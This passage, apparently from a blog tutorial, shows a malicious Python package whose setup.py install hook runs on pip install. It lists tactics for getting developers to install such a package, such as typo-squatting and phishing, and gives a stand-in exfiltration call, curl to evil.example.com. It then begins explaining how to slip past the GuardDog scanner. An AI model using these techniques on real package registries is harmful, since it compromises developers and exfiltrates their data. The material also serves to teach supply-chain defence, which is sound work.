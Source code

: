Now we install the package, with extra verbosity just to see our "pwned" print statement:

```
$ pip install -v .
Using pip 22.3.1 from /hack/venv/lib/python3.10/site-packages/pip (python 3.10)
Processing /hack
...
  running bdist_wheel
  running build
  installing to build/bdist.macosx-12.3-x86_64/wheel
  running install
  ************************ pwned ************************
  running install_egg_info
  running egg_info
...
Successfully installed malicious-1.0.0
```

Alright! Now we just need our target developer to install this package. This is the only hard part about our hack, but we have a lot of options:

* [Typo-squatting a popular package](https://snyk.io/blog/malicious-packages-found-to-be-typo-squatting-in-pypi/)
* [Registering someone's expired domain](https://sockpuppets.medium.com/how-i-hacked-ctx-and-phpass-modules-656638c6ec5e) that they used to use for email, then issuing password resets
* [Tricking a popular package](https://www.theregister.com/2023/01/04/pypi_pytorch_dependency_attack/) to include your package as a dependency
* Paying to own a popular package
* Forking an abandoned project and telling everyone to migrate to yours
* Good ol' fashioned phishing
* and more

### Avoiding detection

With our malicious package, it would be easy to exfiltrate files, but some nosy person will probably notice a `subprocess.run(['curl', 'evil.example.com'...])` line on our file. DataDog publishes a tool called [GuardDog](https://github.com/DataDog/guarddog) that will simulate our nosy person, who we can trivially trick.

Our current script does get noticed:

```
$ guarddog scan ./dist/malicious-1.0.0.tar.gz
Found 1 potentially malicious indicators in ./dist/malicious-1.0.0.tar.gz

cmd-overwrite: found 1 source code matches
  * Standard pip command overwritten in setup.py at malicious-1.0.0/setup.py:12
        setuptools.setup(
        name="malicious",
        version="1.0.0",
        install_requires=[],
        cmdclass={'install': Install}
    )
```
